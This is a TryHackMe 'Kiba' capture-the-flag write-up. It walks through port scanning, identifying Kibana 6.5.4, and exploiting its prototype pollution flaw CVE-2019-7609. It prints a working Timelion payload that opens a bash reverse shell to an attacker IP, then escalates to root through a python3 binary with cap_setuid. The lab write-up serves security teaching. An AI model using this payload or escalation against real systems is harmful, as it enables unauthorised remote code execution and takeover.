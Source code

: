 <h1 align="center"><a href="https://tryhackme.com/room/kiba">TryHackMe Kiba</a></h1>

<h2 align="center"><a href="https://twitter.com/0xTas">Writeup By: 0xTas</a></h2>

<p align="center">
    <a href="https://tryhackme.com/p/0xTas">
        <img alt="0xTas TryHackMe Profile" src="https://tryhackme-badges.s3.amazonaws.com/0xTas.png"></a>  
</p>


<h3 align="center">15 June 2022</h3>

---

## Description

Identify the critical security flaw in the data visualization dashboard, that allows remote code execution.

---

## Questions

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?

Fairly simple question, easy to Google if needed, but I do have a little bit of experience writing server-side Javascript, so to me this sounds like prototype pollution. <br>

Prototype pollution is a vulnerability that takes advantage of the way that objects in languages like Javascript inherit properties and methods from their "prototype" objects. <br>

Prototype pollution occurs when an attacker can inject malicious code to change the properties and methods of the prototype object itself. <br>
In Javascript, there is a property, "__proto__", which can be used to access the prototype object, and potentially alter its methods. <br>
If an attacker can inject malicious code using the __proto__ property, they can redefine the global methods that apply to all instances of that object, thus polluting the namespace with arbitrary code. <br>
It is also possible to alter properties of objects with Prototype Pollution, as long as the specific instance of the target object does not explicity overwrite this property with its own value, which would override the polluted value. <br>


> Answer: Prototype Pollution

---

### What is the version of visualization dashboard installed in the server?

First I ran a typical scan with Nmap: <br>

`tas@kali$ nmap -vv -sV -sC -p- -T4 kiba.thm -oN nmap/full.log` <br>

> 22/tcp   open  ssh          syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) <br>
> 80/tcp   open  http         syn-ack Apache httpd 2.4.18 ((Ubuntu)) <br>
> 5044/tcp open  lxi-evntsvc? syn-ack <br>
> 5601/tcp open  esmagent?    syn-ack <br>

So we're dealing with SSH, a webserver, and a couple of services that I don't recognize right away. <br>

First I visited the homepage of the webserver. It was mostly blank with ASCII art of what looked like a moth or butterfly, and the words "Welcome, 'Linux Capabilities' is very interesting.". <br>

Indeed they are, but this wasn't going to help me right this second. Checking the source, I confirmed that there was nothing else interesting on this index.html page. <br>

I decided to run a Nikto and Gobuster scan on the webserver while I manually checked out those other 5XXX ports. <br>

`tas@kali$ nikto -h http://kiba.thm` <br>

`tas@kali$ gobuster dir -u http://kiba.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` <br>

While those scans were running, I tried navigating to the service on port 5044 with my browser, but received a "ERR_CONNECTION_RESET" response. <br>

Next I tried to connect with netcat, but this failed as well: <br>

`tas@kali$ nc -nv $IP 4055` <br>

![Netcat Connection Refused](https://i.imgur.com/aQNNUVI.png)

After this I moved on to checking the service running on port 5601, and it brought me to an actual webpage at '/app/kibana' that appeared to be a dashboard for a product called Kibana. <br>

![Kibana Dashboard](https://i.imgur.com/FKeUOfA.png)

Poking around the dashboard for a little bit, I was able to find a version disclosure on the management tab: <br>

![Kibana Dashboard Version](https://i.imgur.com/8aKKBjh.png)

<details>
    <summary>Kibana Version</summary>

> Answer: Version 6.5.4
</details>

---

### What is the CVE number for this vulnerability?

Searching on Google for "kibana prototype pollution exploit", I was immediately able to indentify the CVE. <br>

<details>
    <summary>CVE Number</summary>

> Answer: CVE-2019-7609
</details>

---

### Compromise the machine and locate user.txt

Following through with my Google search, I read from a couple different resources to learn more about this vulnerability, and how to exploit it. <br>

The vulnerability is in the Timelion Data Visualizer, but also involves the Canvas Workpads module.
Basically, when you load the canvas tab, Kibana attempts to start a new NodeJS process in the background.
This was taken advantage of, but the most direct path to RCE via a "--eval" statement was not allowed, so [the researcher](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/) who discovered this exploit had to get creative.
They found that by using prototype pollution in the Timelion visualizer to inject an environment variable containing valid Javascript syntax, they could force NodeJS
to load those environment variables by using the "--require" option instead. 
Since on Linux, the file "/proc/self/environ" contains these environment variables, when the attacker opens the canvas after polluting them with their malicious Javascript code,
the new Node process that spawns would include the malicious environment variable and execute the code within. <br>

Unfortunately, I couldn't get the PoC payload from this researcher's article to function properly in this situation, but I found an [alternative payload on Github](https://github.com/mpgn/CVE-2019-7609). <br>
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.2.2.70/7777 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

So, using the payload with working syntax, I navigated to the Timelion visualizer and pasted it in, making sure to click the "run" button to the right. <br>

![TimeLion Visualizer Payload](https://i.imgur.com/hVfJmWB.png)

Next I made sure to start a netcat listener with bash in my terminal: <br>

`tas@kali$ nc -lnvp 7777` <br>

And then I clicked on the canvas tab in the Kibana Dashboard. <br>

![Kibana Canvas loading with exploit](https://i.imgur.com/NloT6vi.png)

At that moment, I caught a shell on the server: <br>

![Kibana RCE Reverse Shell](https://i.imgur.com/N3I2oyV.png)

I was able to locate user.txt in /home/kiba. <br>

> Answer: THM{1s_**************************}

---

### How would you recursively list capabilities for Linux binaries?

For this question I referenced my notes on Linux enumeration and privilege escalation: <br>

![Linux Capabilities Info](https://i.imgur.com/OmRlh78.png)

<details>
    <summary>List Linux Capabilities</summary>

You can list enabled capabilities with `getcap -r /`. <br>
Running the command without root privileges causes many errors, so you should generally append `2>/dev/null` to suppress them. <br>

> Answer: getcap -r /
</details>

---

### Escalate privileges and obtain root.txt

I ran the command to list interesting capabilities: <br>

![getcap -r / Output](https://i.imgur.com/YbEc7FZ.png)

Right away the python3 entry stood out to me, especially because it was in a folder named ".hackmeplease". <br>

The binary had cap_setuid enabled, so I headed to [GTFOBins](https://gtfobins.github.io/gtfobins/python/) to learn how we might exploit this. <br>

![GTFOBins Python Capabilities](https://i.imgur.com/zlqNwaM.png)

By using the OS module to change the UID of the Python process with `os.setuid(0)`, we can spawn a privileged shell with `os.system`. <br>

I navigated into the .hackmeplease directory, and carried out the escalation process: <br>

![Python Capabilities Privilege Escalation](https://i.imgur.com/wCV2wIR.png)

It worked, and from there I was able to retrieve the flag from root.txt. <br>

> Answer: THM{pr1v1lege_*****************************}

---
